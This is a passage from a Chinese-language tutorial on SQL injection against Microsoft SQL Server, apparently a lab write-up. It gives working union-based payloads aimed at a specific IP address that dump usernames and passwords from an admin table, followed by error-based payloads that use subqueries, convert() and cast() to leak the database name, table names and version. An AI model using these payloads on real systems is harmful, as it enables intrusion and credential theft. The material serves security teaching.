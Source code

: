 ```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,username,password,null from manage-- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,username,password,null from manage where username <> 'admin_mz'-- qwe
```

![](https://p5.ssl.qhimg.com/t01188d69b4c3307b79.png)
解密获取密码
![](https://p2.ssl.qhimg.com/t016cb243729a0f493a.png)

# 0x04 报错注入

mssql数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入。

## 1、直接报错

等号两边数据类型不一致配合子查询获取数据。

```php
#获取数据库库名?id=1' and 1=(select db_name()) -- qwe
```

![](https://p0.ssl.qhimg.com/t01f288e811fb1764c3.png)

```php
#获取第一个表名?id=1' and 1=(select top 1 name from dbo.sysobjects) -- qwe
```

![](https://p1.ssl.qhimg.com/t01c2dcc7214ea0790b.png)

```php
#将数据连接显示?id=1'  and 1=stuff((select db_name() for xml path('')),1,0,'')--+
```

## 2、convert()函数

```php
convert(int,db_name())，将第二个参数的值转换成第一个参数的int类型。
```

具体用法如下：

```php
#获取数据库库名?id=1' and 1=convert(int,(select db_name())) -- qwe
```

![](https://p5.ssl.qhimg.com/t0147c5729c269d0ac8.png)

```php
#获取数据库版本?id=1' and 1=convert(int,(select @@version))) -- qwe
```

![](https://p3.ssl.qhimg.com/t0171dbf58ebfd7a276.png)

## 3、cast()函数
